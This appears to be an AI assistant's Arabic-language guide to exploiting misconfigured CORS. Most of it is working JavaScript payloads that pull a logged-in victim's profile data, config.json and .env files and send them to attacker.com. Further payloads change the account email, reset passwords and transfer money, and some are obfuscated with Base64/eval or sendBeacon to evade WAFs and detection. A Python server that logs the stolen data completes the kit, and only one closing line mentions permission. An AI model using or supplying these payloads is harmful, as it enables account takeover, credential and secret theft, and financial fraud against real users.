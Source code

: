 
### الخطوات العملية لاستغلال إعدادات CORS الخاطئة
1. إعداد البيئة:
   - استخدم متصفحًا مع أداة وكيل مثل Burp Suite أو OWASP ZAP لفحص رؤوس الطلبات والاستجابات.
   - أعد خادمًا خارجيًا (مثل Python http.server أو ngrok) لتسجيل البيانات المستلمة.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة الطلبات في علامة Network ووحدة التحكم (Console).
   - أنشئ صفحة ويب ضارة على نطاق تحت سيطرتك أو خادم محلي للاختبار.

2. تحديد نقاط الضعف في CORS:
   - أرسل طلبات إلى نقاط النهاية (مثل /api/user أو /profile) باستخدام curl أو Burp Suite.
   - تحقق من رؤوس الاستجابة:
     - Access-Control-Allow-Origin: * (يسمح لجميع النطاقات).
     - Access-Control-Allow-Origin: http://attacker.com (يسمح بنطاق يمكن تزييفه).
     - Access-Control-Allow-Credentials: true (يسمح بإرسال بيانات الجلسة).
   - حدد نقاط نهاية تُرجع بيانات حساسة أو تدعم إجراءات (مثل POST أو DELETE).

3. إنشاء صفحة ويب ضارة:
   - أنشئ صفحة HTML تحتوي على شيفرة JavaScript، مثل:
     <script>
       fetch('https://example.com/api/user', {credentials: 'include'})
         .then(response => response.json())
         .then(data => fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(data)}));
     </script>
   - استضف الصفحة على خادمك (مثل http://attacker.com) أو اختبرها محليًا باستخدام python -m http.server.
   - تأكد من إرسال البيانات المستخرجة إلى خادمك الخارجي.

4. اختبار الطلبات:
   - افتح الصفحة الضارة في متصفح به جلسة نشطة للموقع المستهدف (مثل تسجيل دخول في https://example.com).
   - راقب طلبات الشبكة في أدوات المطورين للتأكد من:
     - إرسال الطلب إلى الموقع المستهدف.
     - إرجاع البيانات بسبب إعدادات CORS الضعيفة.
     - إرسال البيانات إلى خادمك.
   - تحقق من وجود أخطاء (مثل blocked by CORS policy) لتحديد القيود.

5. مراقبة الاستجابات:
   - تحقق من خادمك الخارجي لتأكيد استلام البيانات:
     - نجاح (True): تظهر البيانات (مثل بيانات المستخدم أو الرموز) في السجلات.
     - فشل (False): لا تصل بيانات بسبب حظر CORS أو عدم وجود جلسة.
   - استخدم Burp Suite لمراقبة الطلبات الصادرة والواردة.
   - حلل نوع البيانات المستخرجة (مثل JSON أو نصوص).

6. توسيع الهجوم (اختياري):
   - جرب نقاط نهاية أخرى (مثل /api/settings أو /api/transactions).
   - استخدم طلبات POST أو DELETE لتنفيذ إجراءات (مثل تغيير كلمة المرور).
   - استغل قوائم بيضاء ضعيفة بتزييف رأس Origin.
   - استخدم تقنيات إخفاء (مثل navigator.sendBeacon) لتجنب الكشف.

### جميع المحاولات الممكنة لاستغلال إعدادات CORS الخاطئة
سأقسم المحاولات إلى فئتين: المحاولات اليدوية (للاختبار اليدوي) والمحاولات الآلية (للاستخدام مع سكربتات).

#### 1. المحاولات اليدوية
تُستخدم لاختبار إعدادات CORS يدويًا عبر إنشاء صفحات ويب ضارة.

##### أ. استخراج بيانات حساسة عبر طلبات GET
استهداف نقاط نهاية تُرجع بيانات حساسة.
- الشيفرة:
  <script>
    fetch('https://example.com/api/user', {credentials: 'include'})
      .then(response => response.json())
      .then(data => fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(data)}));
  </script>
  - الإدخال: استضف الشيفرة على http://attacker.com.
  - كيف يعمل: يرسل طلب GET ويُرسل البيانات المستخرجة إلى خادم المهاجم.
  - متى يُستخدم؟: عند وجود بيانات حساسة ويسمح CORS بـ *.
- الشيفرة:
  <script>
    const xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://example.com/api/profile');
    xhr.withCredentials = true;
    xhr.onload = () => fetch('http://attacker.com/log', {method: 'POST', body: xhr.responseText});
    xhr.send();
  </script>
  - الإدخال: أضف إلى صفحة HTML ضارة.
  - كيف يعمل: يستخدم XMLHttpRequest لإرسال الطلب.
  - متى يُستخدم؟: لتجاوز قيود fetch أو للمتصفحات القديمة.
- الشيفرة:
  <script>
    navigator.sendBeacon('http://attacker.com/log', JSON.stringify(
      await (await fetch('https://example.com/api/user', {credentials: 'include'})).json()
    ));
  </script>
  - الإدخال: استضف في صفحة ضارة.
  - كيف يعمل: يستخدم sendBeacon لإرسال البيانات بشكل غير متزامن.
  - متى يُستخدم؟: لتقليل الكشف.

##### ب. تنفيذ إجراءات عبر طلبات POST
استهداف نقاط نهاية تدعم إجراءات حساسة.
- الشيفرة:
  <script>
    fetch('https://example.com/api/settings', {
      method: 'POST',
      credentials: 'include',
      headers: {'Content-Type': 'application/json'},
      body: JSON.stringify({email: 'hacked@attacker.com'})
    }).then(response => fetch('http://attacker.com/log', {method: 'POST', body: response.status}));
  </script>
  - الإدخال: أضف إلى صفحة على http://attacker.com.
  - كيف يعمل: يغير البريد الإلكتروني ويسجل حالة الطلب.
  - متى يُستخدم؟: لتغيير إعدادات المستخدم.
- الشيفرة:
  <script>
    const formData = new FormData();
    formData.append('password', 'hacked123');
    fetch('https://example.com/api/reset-password', {
      method: 'POST',
      credentials: 'include',
      body: formData
    }).then(response => fetch('http://attacker.com/log', {method: 'POST', body: response.status}));
  </script>
  - الإدخال: استضف في صفحة ضارة.
  - كيف يعمل: يُعيد تعيين كلمة المرور باستخدام FormData.
  - متى يُستخدم؟: عند الحاجة إلى بيانات نموذج.
- الشيفرة:
  <script>
    fetch('https://example.com/api/transfer', {
      method: 'POST',
      credentials: 'include',
      headers: {'Content-Type': 'application/json'},
      body: JSON.stringify({amount: 1000, to: 'attacker_account'})
    }).then(response => fetch('http://attacker.com/log', {method: 'POST', body: response.status}));
  </script>
  - الإدخال: أضف إلى صفحة HTML.
  - كيف يعمل: يحاول تحويل أموال.
  - متى يُستخدم؟: لنقاط نهاية مالية.

##### ج. استغلال قوائم بيضاء ضعيفة
استهداف خوادم تقبل نطاقات بناءً على قوائم بيضاء غير آمنة.
- الشيفرة:
  <script>
    fetch('https://example.com/api/user', {
      credentials: 'include',
      headers: {'Origin': 'http://example.com.attacker.com'}
    })
      .then(response => response.json())
      .then(data => fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(data)}));
  </script>
  - الإدخال: استضف على نطاق مثل http://example.com.attacker.com.
  - كيف يعمل: يزيف Origin ليبدو جزءًا من قائمة بيضاء.
  - متى يُستخدم؟: عند استخدام regex غير دقيق.
- الشيفرة:
  <script>
    fetch('https://example.com/api/data', {
      credentials: 'include',
      headers: {'Origin': 'null'}
    })
      .then(response => response.json())
      .then(data => fetch('http://attacker.com/log', {method: 'POST', body: JSON.stringify(data)}));
  </script>
  - الإدخال: استضف في صفحة محلية (file://).
  - كيف يعمل: يستغل قبول Origin: null.
  - متى يُستخدم؟: عند السماح بقيم Origin غير قياسية.

##### د. استخراج ملفات عبر CORS
استهداف ملفات حساسة.
- الشيفرة:
  <script>
    fetch('https://example.com/config.json', {credentials: 'include'})
      .then(response => response.text())
      .then(data => fetch('http://attacker.com/log', {method: 'POST', body: data}));
  </script>
  - الإدخال: أضف إلى صفحة ضارة.
  - كيف يعمل: يصل إلى ملفات تكوين.
  - متى يُستخدم؟: عند توفر ملفات عامة.
- الشيفرة:
  <script>
    fetch('https://example.com/.env', {credentials: 'include'})
      .then(response => response.text())
      .then(data => fetch('http://attacker.com/log', {method: 'POST', body: data}));
  </script>
  - الإدخال: استضف في صفحة HTML.
  - كيف يعمل: يستهدف ملفات مثل .env.
  - متى يُستخدم؟: عند وجود ملفات حساسة.

##### هـ. محاولات مع التعتيم
تجنب اكتشاف أنظمة الأمان.
- الشيفرة:
  <script>
    fetch('https://example.com/api/user', {credentials: 'include'})
      .then(response => response.json())
      .then(data => fetch('http://attacker.com/log?c=' + btoa(JSON.stringify(data))));
  </script>
  - الإدخال: أضف إلى صفحة ضارة.
  - كيف يعمل: يُشفر البيانات بـ Base64.
  - متى يُستخدم؟: لتجنب WAF.
- الشيفرة:
  <script>
    eval(atob('ZmV0Y2goJ2h0dHBzOi8vZXhhbXBsZS5jb20vYXBpL3VzZXInLCB7Y3JlZGVudGlhbHM6ICdpbmNsdWRlJ30pLnRoZW4ocmVzcG9uc2UgPT4gcmVzcG9uc2UuanNvbigpKS50aGVuKGRhdGEgPT4gZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nJywge21ldGhvZDogJ1BPU1QnLCBib2R5OiBKU09OLnN0cmluZ2lmeShkYXRhKX0pKTs='));
  </script>
  - الإدخال: استضف في صفحة HTML.
  - كيف يعمل: يشفر الشيفرة بـ Base64 ويستخدم eval.
  - متى يُستخدم؟: لتجاوز أنظمة الكشف.

#### 2. المحاولات الآلية
تُستخدم مع سكربتات لأتمتة الاختبار.

##### أ. إعداد قائمة نقاط النهاية
- المحاولات:
  - إنشاء قائمة نقاط نهاية (مثل /api/user، /api/profile، /config.json).
  - مثال:
    https://example.com/api/user
    https://example.com/api/profile
    https://example.com/api/settings
    https://example.com/config.json
    https://example.com/.env
- كيف يعمل: اختبار كل نقطة نهاية باستخدام JavaScript.
- متى يُستخدم؟: لاختبار نقاط نهاية متعددة.

##### ب. سكربت أتمتة بسيط
- السكربت (Python مع خادم):
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          data = self.rfile.read(content_length).decode()
          print(f"بيانات مستلمة: {data}")

  endpoints = [
      'https://example.com/api/user',
      'https://example.com/api/profile',
      'https://example.com/api/settings',
      'https://example.com/config.json',
      'https://example.com/.env'
  ]

  html_template = """
  <script>
    fetch('{}', {{credentials: 'include'}})
      .then(response => response.text())
      .then(data => fetch('http://localhost:8000/log', {{method: 'POST', body: data}}));
  </script>
  """

  print("إنشاء صفحات اختبار:")
  for endpoint in endpoints:
      with open(f'test_{endpoint.replace("/", "_")}.html', 'w') as f:
          f.write(html_template.format(endpoint))
      print(f"تم إنشاء: test_{endpoint.replace('/', '_')}.html")

  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
- كيف يعمل: يُنشئ خادمًا وصفحات HTML لاختبار نقاط النهاية.
- متى يُستخدم؟: لأتمتة الاختبار.

##### ج. تحليل الاستجابات
- المحاولات:
  - قارن البيانات المستلمة (مثل بيانات المستخدم أو ملفات تكوين).
  - مثال: إذا تلقى الخادم {"username": "john"}، فهذا يؤكد نجاح الهجوم.
- كيف يعمل: تسجيل البيانات لتحديد النقاط الضعيفة.
- متى يُستخدم؟: لتحليل البيانات المستخرجة.

##### د. توسيع قائمة المحاولات
- المحاولات:
  - أضف طلبات POST/DELETE.
  - جرب رؤوس Origin مزيفة.
  - اختبر ملفات إضافية (مثل /secrets.txt).
- كيف يعمل: توسيع القائمة لتغطية شاملة.
- متى يُستخدم؟: لاستكشاف جميع الاحتمالات.

### نصائح إضافية
- إعداد الخادم: استخدم Python http.server أو ngrok.
- تجنب القيود: تحقق من رؤوس مثل Access-Control-Max-Age.
- التعتيم: استخدم Base64 أو إخفاء لتجنب WAF.
- اختبار النطاق: ابدأ بطلبات بسيطة لتأكيد إعدادات CORS.
- الأدوات: Burp Suite، OWASP ZAP، Selenium.
- السلامة: اختبر بإذن صريح فقط (مثل برامج مكافآت الأخطاء).

---

إذا كنت تريد أي تعديل (مثل تبسيط الشرح، التركيز على مثال معين، أو شرح موضوع آخر بنفس الأسلوب)، أخبرني وسأرد فورًا!
